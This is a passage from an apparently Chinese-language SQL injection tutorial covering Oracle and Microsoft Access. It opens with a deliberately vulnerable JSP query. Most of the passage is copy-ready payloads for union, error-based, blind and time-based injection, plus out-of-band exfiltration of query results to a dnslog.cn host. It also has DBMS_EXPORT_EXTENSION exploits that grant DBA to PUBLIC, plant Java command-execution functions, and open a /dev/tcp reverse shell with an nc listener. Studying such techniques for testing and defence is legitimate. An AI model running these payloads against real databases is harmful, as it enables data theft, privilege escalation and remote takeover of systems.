                    DriverManager.registerDriver(new oracle.jdbc.driver.OracleDriver());
            }catch (SQLException e)
            {
                out.print("filed!!");
            }
            try
            {
                Connection conn=DriverManager.getConnection(oraUrl,oraUser,oraPWD);
                String sql="select * from news where id="+request.getParameter("id");
                out.print("执行语句:<br>"+sql+"<br>");
                stmt = conn.createStatement();
                rs = stmt.executeQuery(sql);
                out.print("结果为:");
                out.print("<table border='1' cellpadding='4' cellspacing='0' style='background-color:White;border-color:#3366CC;border-width:1px;border-style:None;width:203px;border-collapse:collapse;'>");
                out.print("<tr style='color:#CCCCFF;background-color:#003399;font-weight:bold;'>");
                out.print("<td>id</td><td>title</td><td>content</td>");
                out.print("</tr>");
                out.print("<tr style='color:#003399;background-color:White;'>");
                while(rs.next())
                {
                        out.print("<td>");out.print(rs.getString(1));out.print("</td>");
                        out.print("<td>");out.print(rs.getString(2));out.print("</td>");
                        out.print("<td>");out.print(rs.getString(3));out.print("</td>");
                }
                out.print("<tr>");
                rs.close();
                stmt.close();
                conn.close();
            } catch (SQLException e)
            {
                    System.out.println(e.toString());
                    out.print(e.toString());
            }
     %>
  </body>
</html>
```

##### 9)联合查询注入

判断注入点的方式与之前的数据库注入一样，就不详细讲了。

###### 1.判断查询列数

```
依旧提交order by 去猜测显示当前页面所用的SQL查询了多少个字段，也就是确认查询字段数。
```

```
http://hackrock.com:8080/oracle/?id=1 order by 3 --+

http://hackrock.com:8080/oracle/?id=1 order by 4 --+
```

###### 2.判断回显位

```
http://hackrock.com:8080/oracle/?id=-1 union select null,null,null from dual --+

http://hackrock.com:8080/oracle/?id=-1 union select 1,'2','3' from dual --+
```

###### 3.获取数据库基本信息

```
获取数据库版本
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select banner from sys.v_$version where rownum=1 ),'3' from dual --+        

获取数据库的实例名(SYS用户才可查询)
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select instance_name from v_$instance),'3' from dual --+    
```

###### 4.获取用户名

```
Oracle没有数据库名的概念，所谓数据库名，即数据表的拥有者，也就是用户名。
```

```
获取第一个用户名
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select username from all_users where rownum=1),'3' from dual --+    

获取第二个用户名
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select username from all_users where rownum=1 and username<>'SYS'),'3' from dual --+    

获取当前用户名
http://hackrock.com:8080/oracle/?id=-1 union select 1,(SELECT user FROM dual),'3' from dual --+
```

###### 5.获取表名

```
获取TEST用户的第一张表
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select table_name from all_tables where rownum=1 and owner='TEST'),'3' from dual --+

获取TEST用户的第二张表
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select table_name from all_tables where rownum=1 and owner='TEST' and table_name<>'NEWS'),'3' from dual --+
```

###### 6.获取字段名

```
获取TEST用户的USERS表的第一个列名
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),'3' from dual --+    

获取TEST用户的USERS表的第二个列名
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1 and column_name<>'ID'),'3' from dual --+    
```

###### 7.获取数据

```
http://hackrock.com:8080/oracle/?id=-1 union select 1,(select concat(concat(username,'~~'),password) from users where rownum=1),null from dual --+    
```


##### 10)**报错注入**

```
在oracle注入时候出现了数据库报错信息，可以优先选择报错注入，使用报错的方式将查询数据的结果带出到错误页面中。

使用报错注入需要使用类似 1=[报错语句]，1>[报错语句]，使用比较运算符，这样的方式进行报错注入（MYSQL仅使用函数报错即可），类似mssql报错注入的方式。
```

###### 1.utl_inaddr.get_host_name()函数报错注入

```
utl_inaddr.get_host_address 本意是获取ip 地址，但是如果传递参数无法得到解析就会返回一个oracle 错误并显示传递的参数。

我们传递的是一个sql 语句所以返回的就是语句执行的结果。oracle 在启动之后，把一些系统变量都放置到一些特定的视图当中，可以利用这些视图获得想要的东西。
```


```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select user from dual)%7c%7c'~') --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and 1=utl_inaddr.get_host_name('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') --+
```

###### 2.ctxsys.drithsx.sn()函数报错注入

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select user from dual)%7c%7c'~') --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and 1=ctxsys.drithsx.sn(1,'~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') --+
```

###### 3.**dbms_xdb_version.checkin()函数报错注入**

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.checkin('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

###### 4.**dbms_xdb_version.makeversioned()函数报错注入**

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.makeversioned('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

###### 5.**dbms_xdb_version.uncheckout()函数报错注入**

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_xdb_version.uncheckout('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

###### 6.**dbms_utility.sqlid_to_sqlhash()函数报错注入**

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and (select dbms_utility.sqlid_to_sqlhash('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

###### 7.**ordsys.ord_dicom.getmappingxpath()函数报错注入**

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select user from dual)%7c%7c'~') from dual) is not null --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'~') from dual) is not null --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'~') from dual) is not null --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and (select ordsys.ord_dicom.getmappingxpath('~'%7c%7c(select username from test.users where rownum=1)%7c%7c'~') from dual) is not null --+
```

###### 8.**XMLType()函数报错注入**

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select user from dual)%7c%7cchr(62))) from dual) is not null --+

获取表名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7cchr(62))) from dual) is not null --+

获取字段名
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7cchr(62))) from dual) is not null --+

获取数据
http://hackrock.com:8080/oracle/?id=1 and (select upper(XMLType(chr(60)%7c%7cchr(58)%7c%7c(select username from test.users where rownum=1)%7c%7cchr(62))) from dual) is not null --+
```

##### 11)布尔型盲注

```
decode()函数布尔盲注

decode(字段或字段的运算，值1，值2，值3）

这个函数运行的结果是，当字段或字段的运算的值等于值1时，该函数返回值2，否则返回3。

当然值1，值2，值3也可以是表达式，这个函数使得某些sql语句简单了许多。

使用方法：

比较大小
```

```
select decode(sign(变量1-变量2),-1,变量1,变量2) from dual; --取较小值
```

```
sign()函数根据某个值是0、正数还是负数，分别返回0、1、-1

例如：

变量1=10，变量2=20，则sign(变量1-变量2)返回-1，decode解码结果为“变量1”，达到了取较小值的目的。
```

```
select decode(sign(10-20),-1,10,20) from dual;                   
```

###### 1.**猜解当前用户**

```
判断是否是TEST用户
http://hackrock.com:8080/oracle/?id=1 and 1=(select decode(user,'TEST',1,0) from dual) --+

也可利用substr()函数进行逐一猜解
http://hackrock.com:8080/oracle/?id=1 and 1=(select decode(substr((select table_name from all_tables where rownum=1 and owner='TEST'),1,1),'T',1,0) from dual) --+
```

###### 2.**猜解表名**

```
http://hackrock.com:8080/oracle/?id=1 and 1=(select decode(substr((select table_name from all_tables where rownum=1 and owner='TEST'),1,1),'N',1,0) from dual) --+
```

###### 3.**猜解字段名**

```
http://hackrock.com:8080/oracle/?id=1 and 1=(select decode(substr((select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),1,1),'I',1,0) from dual) --+
```

###### 4.**猜解数据**

```
http://hackrock.com:8080/oracle/?id=1 and 1=(select decode(substr((select username from test.users where rownum=1),1,1),'a',1,0) from dual) --+
```

###### 5.**instr()函数布尔盲注**

```
instr函数的使用，从一个字符串中查找指定子串的位置。例如：
```

```
select instr('abcdef123de','de') position from dual;
```



```
从1开始算 de排第四所以返回4
```

###### 6.**布尔盲注中的应用**

```
http://hackrock.com:8080/oracle/?id=1 and (instr((select user from dual),'S'))=1 --+

http://hackrock.com:8080/oracle/?id=1 and (instr((select user from dual),'SY'))=1 --+

http://hackrock.com:8080/oracle/?id=1 and (instr((select user from dual),'SYS'))=1 --+
```

```
payload构造如上。
```

###### 7.**substr()函数布尔盲注**

**获取数据长度**

```
http://hackrock.com:8080/oracle/?id=1 and (select length(user) from dual)=3 --+
```

**猜解ASCII码**

```
http://hackrock.com:8080/oracle/?id=1 and (select ascii(substr(user,1,1))from dual)>65 --+
```

```
payload构造如上。
```

##### 12)**时间型盲注**

```
oracle注入中可以通过页面响应的状态，这里指的是响应时间，通过这种方式判断SQL是否被执行的方式，便是时间盲注。

oracle的时间盲注通常使用DBMS_PIPE.RECEIVE_MESSAGE()，而另外一种便是decode()与高耗时SQL操作的组合，当然也可以是case，if 等方式与高耗时操作的组合，这里的高耗时操作指的是，例如：(select count(*) from all_objects)，对数据库中大量数据进行查询或其他处理的操作，这样的操作会耗费较多的时间，然后通过这个方式来获取数据。这种方式也适用于其他数据库。
```

###### 1.**dbms_pipe.receive_message()函数时间盲注**

```
DBMS_LOCK.SLEEP()函数可以让一个过程休眠很多秒，但使用该函数存在许多限制。

首先，不能直接将该函数注入子查询中，因为Oracle不支持堆叠查询(stacked query)。其次，只有数据库管理员才能使用DBMS_LOCK包。

在Oracle PL/SQL中有一种更好的办法，可以使用下面的指令以内联方式注入延迟：

dbms_pipe.receive_message('RDS', 10)

DBMS_PIPE.RECEIVE_MESSAGE()函数将为从RDS管道返回的数据等待10秒。默认情况下，允许以public权限执行该包。

DBMS_LOCK.SLEEP()与之相反，它是一个可以用在SQL语句中的函数。
```

```
查看是否可以使用dbms_pipe.receive_message()函数进行延时注入
```

```
http://hackrock.com:8080/oracle/?id=1 and 1=(dbms_pipe.receive_message('RDS',5)) --+
```



```
来自官网的DBMS_PIPE.RECEIVE_MESSAGE语法：
```

```
DBMS_PIPE.RECEIVE_MESSAGE (
   pipename     IN VARCHAR2,
   timeout      IN INTEGER      DEFAULT maxwait)
RETURN INTEGER;
```


具体payload构造：


**猜解当前用户**

```
http://hackrock.com:8080/oracle/?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(user as varchar(4000)),chr(32)) from dual),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+
```

**猜解表名**

```
http://hackrock.com:8080/oracle/?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(table_name as varchar(4000)),chr(32)) from all_tables where rownum=1 and owner='TEST'),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+
```

**猜解字段**

```
http://hackrock.com:8080/oracle/?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(column_name as varchar(4000)),chr(32)) from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+
```

**猜解数据**

```
http://hackrock.com:8080/oracle/?id=1 and 7238=(case when (ascii(substrc((select nvl(cast(username as varchar(4000)),chr(32)) from test.users where rownum=1),1,1)) > 65) then dbms_pipe.receive_message(chr(32)%7c%7cchr(106)%7c%7cchr(72)%7c%7cchr(73),5) else 7238 end) --+
```

###### 2.**decode()函数时间盲注**

```
（select count(*) from all_objects)会花费更多时间去查询所有数据库的条目。不过在使用的过程中有很多不尽如人意的地方，有时候加载快有时加载慢。
```

**时间盲注的应用**

```
http://hackrock.com:8080/oracle/?id=1 and 1=(select decode(substr(user,1,1),'S',(select count(*) from all_objects),0) from dual)
```

payload构造如上。

###### 3.**decode()与dbms_pipe.receive_message()嵌套时间盲注**

**时间盲注的应用**

```
http://hackrock.com:8080/oracle/?id=1 and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS', 5),0) from dual)
```

payload构造如上。

##### 13)**DNS带外通信注入**

```
Oracle注入之带外通信和DNSLOG注入非常相似，例如和mysql中load_file()函数实现无回显注入非常相似。

Oracle发送HTTP和DNS请求，并将查询结果带到请求中，然后检测外网服务器的HTTP和DNS日志，从日志中获取查询结果，通过这种方式将繁琐的盲注转换成可以直接获取查询结果的方式。

使用第三方平台，监听访问请求，并记录请求的日志信息，然后使用utl_http.request()向外网主机发送http请求，请求便携带了查询的结果信息。此处可以结合SSRF进行内网探测。或许这就是Oracle的SSRF。

利用utl.inaddr.get_host_address()，将查询结果拼接到域名下，并使用DNS记录解析日志，通过这种方式获取查询结果。
```

###### 1.**检测是否支持utl_http.request**

```
http://hackrock.com:8080/oracle/?id=1 and exists (select count(*) from all_objects where object_name='UTL_HTTP') --+
```

若页面返回正常，这说明支持utl_http.request

**构造payload**

```
获取用户名
http://hackrock.com:8080/oracle/?id=1 and utl_http.request('http://'%7c%7c(select user from dual)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

获取表名
http://hackrock.com:8080/oracle/?id=1 and utl_http.request('http://'%7c%7c(select table_name from all_tables where rownum=1 and owner='TEST')%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

获取列名
http://hackrock.com:8080/oracle/?id=1 and utl_http.request('http://'%7c%7c(select column_name from all_tab_columns where owner='TEST' and table_name='USERS' and rownum=1)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+

获取数据
http://hackrock.com:8080/oracle/?id=1 and utl_http.request('http://'%7c%7c(select username from test.users where rownum=1)%7c%7c'.z9mt3s.dnslog.cn/oracle')=1--+
```

###### 2.**利用漏洞提权执行命令**

```
Oracle提权漏洞集中存在于PL/SQL编写的函数、存储过程、包、触发器中。Oracle存在提权漏洞的一个重要原因是PL/SQL定义的两种调用权限导致（定义者权限和调用者权限）。定义者权限给了低权限用户在特定时期拥有高权限的可能，这就给提权操作奠定了基础。

即，无论调用者权限如何，执行存储过程的结果权限永远为定义者权限，因此，如果一个较高权限的用户定义了存储过程，并赋予了低权限用户调用权限，较低权限的用户即可利用这个存储过程提权。

Java作为Oracle公司的主打语言，具有内置的安全性机制和高效的垃圾收集系统。Java还具有一组非常大的、丰富的标准库，从而可以更快、更低成本地开发应用程序。因此Oracle公司在它的Oracle数据库中，同样支持了使用Java来编写存储过程。

那么对于攻击者来说，完全可以通过这一特性，在系统上执行Java代码，从而完成提权操作。
```

**攻击流程**：



**本文测试环境均为**：

```
CentOS Linux release 7.2.1511 (Core)

Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - 64bit Production
```

执行方式很多种，这边只研究Oracle10g，并且本地实测成功的

```
•DBMS_EXPORT_EXTENSION()

•dbms_xmlquery.newcontext()

•DBMS_JAVA_TEST.FUNCALL()
```


**dbms_export_extension()**

```
•影响版本：Oracle 8.1.7.4, 9.2.0.1-9.2.0.7, 10.1.0.2-10.1.0.4, 10.2.0.1-10.2.0.2, XE(Fixed in CPU July 2006)

•权限：None

•详情：这个软件包有许多易受PL/SQL注入攻击的函数。这些函数由SYS拥有，作为SYS执行并且可由PUBLIC执行。因此，如果SQL注入处于上述任何未修补的Oracle数据库版本中，那么攻击者可以调用该函数并直接执行SYS查询。
```

###### 3.**提升权限**

```
	该请求将导致查询"GRANT DBA TO PUBLIC"以SYS身份执行。因为这个函数允许PL / SQL缺陷（PL / SQL注入）。一旦这个请求成功执行，PUBLIC获取DBA角色，从而提升当前user的特权
```

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant dba to public'''';END;'';END;--','SYS',0,'1',0) from dual
```

###### 4.**使用Java执行**

**创建Java库**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args){try{BufferedReader myReader= new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}public static String readFile(String filename){try{BufferedReader myReader= new BufferedReader(new FileReader(filename)); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'''';END;'';END;--','SYS',0,'1',0) from dual
```

**赋予Java权限**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission(''''''''PUBLIC'''''''', ''''''''SYS:java.io.FilePermission'''''''',''''''''<>'''''''', ''''''''execute'''''''');end;'''';END;'';END;--','SYS',0,'1',0) from dual
```

**创建函数**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name''''''''LinxUtil.runCMD(java.lang.String) return String'''''''';'''';END;'';END;--','SYS',0,'1',0) from dual
```

**赋予函数执行权限**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on LinxRunCMD to public'''';END;'';END;--','SYS',0,'1',0) from dual
```

**执行系统命令**

```
select sys.LinxRunCMD('/bin/bash -c /usr/bin/whoami') from dual
```




**dbms_xmlquery.newcontext()**

```
•影响版本：Oracle 8.1.7.4, 9.2.0.1-9.2.0.7, 10.1.0.2-10.1.0.4, 10.2.0.1-10.2.0.2, XE(Fixed in CPU July 2006)

•必须在DBMS_PORT_EXTENSION存在漏洞情况下，否则赋予权限时无法成功s
```

**创建Java库**

```
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
```

**赋予当前用户Java权限**

```
--当前用户查看
select user from dual

select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission(''''''''YY'''''''', ''''''''SYS:java.io.FilePermission'''''''',''''''''<<ALL FILES>>'''''''', ''''''''execute'''''''');end;'''';END;'';END;--','SYS',0,'1',0) from dual;
```

**通过以下命令可以查看all_objects内部改变：**

```
select * from all_objects where object_name like '%LINX%' or object_name like '%Linx%'
```



**创建函数**

```
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace function LinxRunCMD(p_cmd in varchar2) return varchar2 as language java name ''''LinxUtil.runCMD(java.lang.String) return String''''; '';commit;end;') from dual;
```

**判断是否创建成功**

```
select OBJECT_ID from all_objects where object_name ='LINXRUNCMD'
```




**也可通过查看all_objects内部改变判断**



**若想删除创建的函数，通过以下命令删除**

```
drop function LinxRunCMD
```

**执行命令**

```
select LinxRunCMD('id') from dual
```



**dbms_java_test.funcall()**

```
•影响版本：10g R2, 11g R1, 11g R2

•权限：Java Permissions
```

```
Select DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','pwd > /tmp/pwd.txt') from dual;
```

执行时报如下错



但不影响命令的执行



该方式无回显，在注入时不太方便利用，但可通过此方式反弹。

**Java反弹Shell**

在提权操作中如果遇到无回显情况，如上部分第三种方法，可以通过反弹shell的方式，在自己VPS上利用nc监听端口。以此来执行交互式执行命令（类似带外通信）。

**编译payload**

java源代码（linux系统的payload）：

```java
import java.io.*;
import java.net.*;
public class shellRev
{
        public static void main(String[] args)
        {
                System.out.println(1);
                try{run();}
                catch(Exception e){}
        }
public static void run() throws Exception
        {
                String[] aaa={"/bin/bash","-c","exec 9<> /dev/tcp/192.168.1.50/8080;exec 0<&9;exec 1>&9 2>&1;/bin/sh"};
                Process p=Runtime.getRuntime().exec(aaa);
    }
}
```

```
#编译
javac shellRev.java

#执行
java shellRev
```


**使用Java执行**


**创建Java库**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "shell" as import java.io.*;import java.net.*;public class shell {public static void run() throws Exception{String[] aaa={"/bin/bash","-c","exec 9<> /dev/tcp/127.0.0.1/8080;exec 0<&9;exec 1>&9 2>&1;/bin/sh"};Process p=Runtime.getRuntime().exec(aaa);}}'''';END;'';END;--','SYS',0,'1',0) from dual
```

**赋予Java权限**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''begin dbms_java.grant_permission( ''''''''PUBLIC'''''''', ''''''''SYS:java.net.SocketPermission'''''''', ''''''''<>'''''''', ''''''''*'''''''' );end;'''';END;'';END;--','SYS',0,'1',0) from dual
```

**创建函数**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace function reversetcp RETURN VARCHAR2 as language java name ''''''''shell.run() return String''''''''; '''';END;'';END;--','SYS',0,'1',0) from dual
```

**赋予函数执行权限**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT" .PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant all on reversetcp to public'''';END;'';END;--','SYS',0,'1',0) from dual
```

**反弹shell**

```
select sys.reversetcp from dual
```

**shell命令行输入：**

```
nc -vv -l p 8080
```




#### 3、Access

##### 1)Access数据库介绍

```
Microsoft Office Access是由微软发布的关系数据库管理系统。Microsoft Office Access是微软把数据库引擎的图形用户界面和软件开发工具结合在一起的一个数据库管理系统。它是微软Office家族的一个成员。Access以它自己的格式将数据存储在基于Access Jet的数据库引擎里。Access数据库属于文件型数据库，所以不需要端口号。

在Office 2007之前的Access数据库文件的后缀是 .mdb ，Office2007及其之后的Access数据库文件的后缀是 .accdb 。

Access数据库中没有注释符号.因此  /**/   、 --   和   #   都没法使用。

Access是小型数据库，当容量到达100M左右的时候性能就会开始下降。

Access数据库不支持错误显示注入，Access数据库不能执行系统命令。

数据库文件打开工具：辅臣数据库浏览器
```

##### 2)Access数据库的连接

```
"Driver={Microsoft Access driver(*.mdb)};dbq=*;uid=admin;pwd=pass;"
```

##### 3)Access数据库中的函数 

```
select len("string")        查询给定字符串的长度

select asc("a")             查询给定字符串的ascii值

top  n                      查询前n条记录

select mid("string",2,1)    查询给定字符串从指定索引开始的长度
```

```
mid(string,start,length) 这个用来截取字符串的

1.string是要截取的字符串

2.start是截取的字符串开始索引

3.length是要截取的字符串长度 
```

##### 4)盲注Access数据库 

```
Access数据库特有的表是：msysobjects，所以可以用它来判断是否是Access数据库
```

```
exists(select*from msysobjects)  #如果这条语句正确，说明是Access数据库
```

```
Access没有数据库的概念，所有的表都是在同一个数据库下。所以，我们不用去判断当前的数据库名，并且access数据库中也不存在 database() 函数。

对于判断存在哪些表，只能用以下枚举的方法来猜测是否存在某某表。
```

```
判断存在sql注入后，判断是否存在admin表，如果存在，正常查询，如果不存在，报语法错误。然后通过枚举表名爆破

and exists(select* from  admin)
```

```
猜测字段也是一样，只能通过枚举来猜测 
```

```
判断有admin表后，再判断admin表有多少列，假如1-10正常查询，11列报语法报错，那说明有10列

and exists(select*from admin order by 10)

判断出存在的列数后，再判断具体的列名。以下语句判断是否存在name列，如果存在，正常查询，如果不存在，则报语法错误。然后再通过枚举列名爆破

and exists(select name from admin)
```

```
猜测完表名和字段名后，我们就看看这个表里面有多少行数据 ，如果>99查询正确，>100查询错误(这里是查询错误，而不是语法错误)，说明有100行数据
```

```
and (select count(*) from information)>100
```

```
然后在猜测每个字段具体的数据了 

access数据库中没有 limit，就不能限制查询出来的行数。但是我们可以使用top命令，top 1是将查询的所有数据只显示第一行，所以 top3就是显示查询出来的前三行数据了
```

```
